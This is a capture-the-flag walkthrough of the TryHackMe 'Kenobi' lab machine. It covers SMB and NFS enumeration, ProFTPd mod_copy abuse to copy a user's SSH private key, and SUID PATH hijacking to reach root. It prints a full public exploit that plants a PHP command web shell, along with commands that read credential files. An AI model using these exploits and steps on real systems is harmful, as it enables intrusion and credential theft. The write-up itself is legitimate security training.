<div align="center">


# Kenobi

**Difficulty:** Easy
**Category:** Samba, FTP, Mount

</div>

---


### Scan the machine with nmap, how many ports are open?

```bash
nmap -sV -sC 10.81.178.1 -oN kenobi-nmap.txt
```

* 21
* 22
* 80
* 111
* 139
* 445
* 249
=
`7`

### How many samba shares have been found?
```bash
smbclient -L 10.81.178.1
# enter
```



`3 shares`

### Once you're connected, list the files on the share. What is the file you can see?

```bash
smbclient //10.81.178.1/anonymous
# enter
ls
```



`log.txt`

### What port is FTP running on?

The usual `21`

### What mount can we see?

"Your earlier nmap scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve."

"In our case, port 111 is accessed to a network file system. Lets use nmap to enumerate this."

I thought that the flag `-A` would include these scripts as it uses some "default ones".

In the man page for nmap: "`-A` enables OS detection `-O`, version scanning `-sV` and script scanning `-sC`".

Okay, it does include `-sC` (default script scan). But for RPC, the only default script scan is `rpcinfo` which gives this output:



From this output we can see the `nfs` (Network File System) service running.

```bash
ls /usr/share/nmap/scripts | grep nfs
```



We get the three that were recommended in the "tip".

```bash
nmap -p111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.81.178.1
```



The interesting part of the output is the folder that is mounted, which we can see in all three of the scripts: `/var`.

### What is the version of ProFtpd?

"ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions,"

We can use nmap with `-sV` (version scanning) or connect to ftp directly with netcat to get the version:

```bash
nmap -sV -p21 10.81.178.1

nc 10.81.178.1 21
```



Version: `1.3.5`

### How many exploits are there for the ProFTPd running?

"Searchsploit is basically just a command line search tool for exploit-db.com"

This I did not know! I thought it was a separate database.

```bash
searchsploit "proftpd 1.3.5"
```



We can find `4` exploits for this version of ProFTPd.

"You should have found an exploit from ProFtpd's **mod_copy module**"

"The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files / directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any party of the filesystem to a chosen destination."

"We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user."

Do we know this?

Ah yes, from log.txt:



We know that a ssh key was generated for the user Kenobi and placed in `/home/Kenobi/.ssh/id_rsa`.



We also know that the ProFTPd service is running as Kenobi from this output ^.

This means that, with the found exploit in **exploitdb** we will probably have the permissions of the user `Kenobi`, we won't be able to read files like `/etc/shadow` since Kenobi probably does not have that access.

If we look into the recommended exploit which can be found on kali in `/usr/share/exploitdb/exploits/linux/remote/36803.py`:


```python
import socket
import sys
import requests
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server = sys.argv[1] #Vulnerable Server
directory = sys.argv[2] # Path accessible from web .....
cmd = sys.argv[3] #PHP payload to be executed
evil = '<?php system("' + cmd + '") ?>'
s.connect((server, 21))
s.recv(1024)
s.send('site cpfr /etc/passwd')
s.recv(1024)
s.send('site cpto ' + evil)
s.recv(1024)
s.send('site cpfr /proc/self/fd/3')
s.recv(1024)
s.send('site cpto ' + directory + 'infogen.php')
s.recv(1024)
s.close()
r = requests.get('http://' + server + '/infogen.php') #Executing PHP payload through HTTP
if (r.status_code == 200):
		print '[ * ] Payload Executed Succesfully [ * ]'
else:
		print ' [ - ] Error : ' + str(r.status_code) + ' [ - ]'
```

I have removed some unnecessary parts of it, but we can see the commands that the description in THM also talks about:

* `s.send('site cpfr /etc/passwd')`
* `s.send('site cpto '+evil)`

This copies `/etc/passwd` to the "evil" field which is displayed on a PHP site for the attacker to see.

We know that there is an `id_rsa` private ssh key in `/home/Kenobi/.ssh/id_rsa` AND that the ProFTPd service is running as Kenobi, so we should just take that key instead of using this exploit.

We also know that the directory `/var` is mounted to the `NFS` (Network File System) service. So if we place it in there, we can look inside the mount and find the private key:

```bash
nc 10.81.178.1 21
site cpfr /home/kenobi/.ssh/id_rsa
site cpto /var/tmp/id_rsa
```



Now we need to mount the `/var`directory to our machine and find the key!

```bash
sudo mkdir /mnt/kenobi
sudo mount 10.81.178.1:/var /mnt/kenobi
ls -la /mnt/kenobi
```



Our folder `/mnt/kenobi` has the mounted folder `/var` `10.81.178.1`.

We know that we have placed the private id_rsa key in `/var/tmp/id_rsa`:
```bash
sudo cp /mnt/kenobi/tmp/id_rsa .
ssh -i id_rsa kenobi@10.81.178.1
``` 


We can now ssh as kenobi and find his flag in `/home/kenobi/user.txt`.

### Privilege escalation

We are presented with the explanation of `SUID` bits.

Basically, when a `SUID` bit is set, depending on if its for the user or the group, we will have access to executing the file as if we were that user or part of that group.

We can search for files that have the `SUID` bit set on the machine:
```bash
find / -perm -u=s -type f 2>/dev/null
```

This searches for files that have the `SUID` bit set for the user field, hence the `-u=s`.

#### Which file looks particularly out of the ordinary?

`/usr/bin/menu`. I have never seen this file before in my life, so for me it was pretty obvious. Lets say that it is a "normal" file, it would still be weird for this file to have the `SUID` bit set.

We can look at the permissions for the file:
```bash
ls -la /usr/bin/menu
```



We can see that the file is owned by `root`. This means that when the `SUID` bit is set for the user field, we can execute this file as if we were the root user.

By using `strings` on the binary we can get all the "readable" words from the binary:

```bash
strings /usr/bin/menu
```



We can see that we get 3 choices when running this binary and maybe that the choices lead to the 3 commands being run:
* `curl -I localhost`
* `uname -r`
* `ifconfig`

We try running it:



Yep, choice 1 ran the command `curl -I localhost`. 
* "Curl localhost and only look at the headers".

So, because this file is executed by us (as root) it looks at the `PATH` of our user when the command `curl` is being run. Notice that the full `path` of the `curl` binary is not given. It only uses the keyword `curl`. 

We can look at our PATH:
```bash
echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We can see that we will first look for the binary `curl` in the directory `/home/kenobi/bin`, then `/home/kenobi/.local/bin` and so on. The last check will be in `/snap/bin`. This check is looking for a file with the name `curl`.

We can find the path to the binary by entering the following:
```bash
which curl
/usr/bin/curl
```

So the binary is in the `/usr/bin` directory, which is the 6th directory in order. 

If we place a binary called `curl` in any folder that comes before `/usr/bin/` in the `PATH` order, it will tell us that `curl` is there instead:

```bash
mkdir /home/kenobi/bin
touch /home/kenobi/bin/curl
```

We also have to make the file executable:

```bash
chmod +x /home/kenobi/bin/curl
```

Now when we look for `curl` we find it to be somewhere else:
```bash
which curl
/home/kenobi/bin/curl
```

This means that when we now choose option 1 in the `menu`binary it is the curl file in our home directory that will be ran.



Of course, nothing happens now, because the `curl` file is empty.

We can use `echo` to put another command inside of the `curl` file:

```bash
echo id > /home/kenobi/bin/curl
```



The output of the command `id` is displayed. Notice we only have the `uid` for root (0) since it is the `SUID` (Set User ID) bit that is set, not the `SGID` (Set Group ID).

Lets do the privesc:

```bash
echo /bin/bash > /home/kenobi/bin/curl
```


We are now the user `root` and can find the root flag in `/root/root.txt`.


Good practice is also to unmount the mounted directory before finishing:
```bash
sudo umount /mnt/kenobi
```